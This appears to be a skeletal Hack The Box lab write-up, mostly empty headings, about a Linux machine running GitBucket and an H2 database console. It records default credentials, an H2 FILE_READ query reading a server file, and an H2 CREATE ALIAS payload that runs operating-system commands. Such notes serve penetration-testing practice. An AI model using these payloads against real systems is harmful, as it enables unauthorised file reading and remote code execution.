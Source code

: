 | Name            | Caption                                                         |
| --------------- | --------------------------------------------------------------- |
| Platform        | HTB                                                             |
| Difficulty      | Hard                                                            |
| OS              | Linux                                                           |
| Used techniques | default credentials, command injection, code review, repositorz |
| Technologies    | gitbucket, Apache Thrift, go                                    |
| Tools           | python                                                          |
| CVEs            | none                                                            |

## Enumeration


git bucket
default creds: root:root
h2 database panel admin
SELECT CAST(FILE_READ('/etc/apache2/conf-available/apache2.conf', NULL) AS VARCHAR(10000));


### Directories






### subdomains



## Foothold



```sql
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throws java.io.IOException{
    java.util.Scanner s=new
    java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : ""; }$$;


CALL REVEXEC('id')

```


## Lateral Movement




## Privilege Escalation


gitbucket 

#### Developed map



#### Sources
https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2